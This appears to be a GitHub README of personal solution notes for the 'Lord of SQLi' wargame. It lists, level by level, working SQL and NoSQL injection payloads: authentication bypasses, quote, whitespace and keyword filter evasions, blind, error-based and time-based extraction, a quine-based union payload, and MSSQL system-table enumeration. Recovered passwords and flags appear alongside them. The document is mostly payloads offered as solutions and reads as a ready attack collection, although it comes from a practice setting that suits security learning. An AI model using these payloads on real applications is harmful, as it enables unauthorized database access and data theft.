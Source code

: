 # lord-of-sqli

#1 GREMLIN<br />
pw='or'1'='1
%27%20or%20%271%27=%271%27%20--%20

Some SQL parsers might not interpret -- if there is no space after.

#2 COBOLT
id=admin%27%20--%20

#3 GOBLIN
%27, &apos, &#39, \u0027, char(39) doesn't work.
bypassing quote filter doesn't work -> have to think some other way to query admin.

no=2%20or%20no=2

#4 ORC
pw=1' or id='admin'-- doesn't work.
It is converted to pw=1\' or id=\'admin\'-- by addslashes function.
It was not possible to find a way to bypass addslashes function.

1' or id='admin' and length(pw)=8 -- '
I found the pw length. It is possible to bruteforce 8 chars.
REL orc.py, pw=095a9852

#5 WOLFMAN
Can't use whitespace.
tab(%09) works.
Also, LF(%0a), CR(%0d), /**/  works.

1%27%09or%09id=%27admin%27%09--%09

#6 DARKELF
OR can be used as ||, AND can be used as &&
However, && should be inputed as URL encoding form(%26).
' || id='admin

#7 ORGE
Combination of #4 and #6.
REL orge.py, pw=7b751aec

#8 TROLL
Trapped in bypassing single quote filter, but never worked. (cost 2+ Hours..)
It was quite simple quiz, that just bypass admin string filter.
ad\min, ADmin, ... 

#9
same.
ad\min works great.

#10
easiest quiz.
' or id='admin' -- 

#11 
substr and = are not allowed.
I was able to use 'LIKE'.
However, it has one problem. 
Like are not case sensitive, so that my codes always return capitalized word.
We can use mid() instead of substr() :)

#12
1' and no=1 or no LIKE "2"
We can find the no of admin.
using same solution of #11, easily solved.

#13
I did find the way in a second, using STRCMP and mid
but, I kept 'no' variable empty.
1\n||\nSTRCMP(id,"admin")\nIS\nFALSE\n&&\nSTRCMP(mid(pw,{i},1),char({j}))\nIS\nFALSE
must give a parameter to equal variables.
REL bugbear.py, pw=52dc3991
* Capital letter, lower letter distinguishability check


#14
%0b %0c -> space!
REL giant.py

#15
cutie quiz.
use % and _ to guess the pw.
pw=%d__

#16
\&pw=or 1=1 -- 
using escape function!

#17
"&pw=%20--%201=1%20ro
using escape function!

#18
pw=')=0;%00
We can use double equation on this problem.
pw=''=0  is interpreted as False=0 so it is true.
and ;%00 is kind of delimiting sql query.

#19
It may not be ascii.
length(substr(pw,1,1))=4
It was an unicode, REL xavis.py
pw=우왕굳

* There was some brilliant approach.
(select @a:=pw where id='admin') union select @a

#20
quite annoying problem.
Had to escape comment.
The only wayt to escape comment is to end line.

and pw=' and pw='' or id='admin' -- '
so the query would be interpreted like,
select id from prob_dragon where id='guest'# and pw='
and pw='' or id='admin'

#21
filtering sleep was a big HINT!!!
I need to conduct Error Based Blind SQLI.
length of password was 32.
REL iron_golem.py, pw=06b5a6c16e8830475f983cc3a825ee9a

#22
error based blind sqli using (select 1 union select )

#23, #24
order by can get multiple arguments
we can use "order by email='**'" as if phrase.

#25
\&pw=%20union%20select%200x5c,0x756e696f6e2073656c65637420636861722839372c3130302c3130392c3130352c3131302923%23

prob_green_dragon table was empty.
Need to put data using union select. TWICE.
But, maybe due to interpreting method, we need to use ascii code when inputing twice.
and ofcourse we can bypass single quote filtering by using CHAR()

#26
SELECT id FROM prob_red_dragon WHERE id=''||no>#' and no=\n1000
can bypass is_numeric
no can be guessed by binary search. REL red_dragon.py

#27
REL blue_dragon.py

#28
REL frankenstein.py

#29
At first, I thought inserting 
no, ip, (select email from prob_phantom where no=1) 
works. But it didn't. I had to rename the table like "from prob_phantom as p"
and my vpn keep changing my ip so, i have to manually throw the request.
It is not neccessary to use "as" it's possible to use "from prob_phantom tmp"

#30
using quine code.

a' union select replace(replace('a" union select replace(replace("$",char(34),char(39)),char(36),"$") as pw%23',char(34),char(39)),char(36),'a" union select replace(replace("$",char(34),char(39)),char(36),"$") as pw%23') as pw%23

#31
using information_schema.processlist
1' union select substr(info,locate('1',info),length(info)-locate('1',info)) from information_schema.processlist#
REL rubiya's blog.

#32

#33
-1'<@=1 or {a 1}=1 or '

#34
-1'<@=1 or id like 'ad%' or '

#35
-1'<@=1 or length(pw)=8 or '

#36
-1'<@=1 union/**/select 'first', 'second'#

#37
' or id='admin

#38
admin\' or id=char(97,100,109,105,110)--%20

#39
1' or substr(pw,2,1)='4' -- '
REL banshee.py

#40
' union select name from sqlite_master -- '
flag_70c81d99
' union select * from flag_70c81d99 -- '
FLAG{ea5d3bbdcc4aec9abe4a6a9f66eaaa13}

#41
admin' and pw='' or id='admin' and pw=1 -- '
select id from prob_nessie where id='admin' and 1=(case when len(pw)=16 then 's' end) -- ' and pw=''
115d8d1a422f1f3e

#42
admin' and pw='' or id='admin' and pw=1 -- '
bae18ae1221fafd3

#43
' if((select len(pw) from prob_yeti where id='admin')=16) waitfor delay '0:0:3' -- '
REL yeti.py

#44
using [] works!!
select[pw]from[prob_mummy]where[id]='admin'and[pw]like'________________'
REL mummy.py

#45
1' union select name from sysobjects where xtype='U' -- '
: flag_34d1a7f3bb77c91e
1' union select id from sysobjects where name='flag_34d1a7f3bb77c91e' -- '
: 597577167
1' union select name from syscolumns where id=597577167 -- '
: wrongflag <-------------- fucking trap
1' union select name from syscolumns where id=597577167 and name <>'wrongflag' -- '
: there was no output!!! may be flag is on other table....
1' union select name from sysobjects where name<>'flag_34d1a7f3bb77c91e' and xtype='U' -- '
: flag_a98fbc3d1d46a81e
1' union select id from sysobjects where name='flag_a98fbc3d1d46a81e' -- '
: 613577224
1' union select name from syscolumns where id=613577224 -- '
: flag
1' union select flag from flag_a98fbc3d1d46a81e -- '
: FLAG{a0819fc56beae985bac7d175c974cd27}

GOOD reference about mssql : https://whatdocumentary.tistory.com/8

#46
id=admin&pw[$ne]=null

#47
id=admin&pw[$regex]=^.{8}$

REL siren.py

#48
' || obj.id=='admin'&&obj.pw.length==8 ? not : '1';}"}
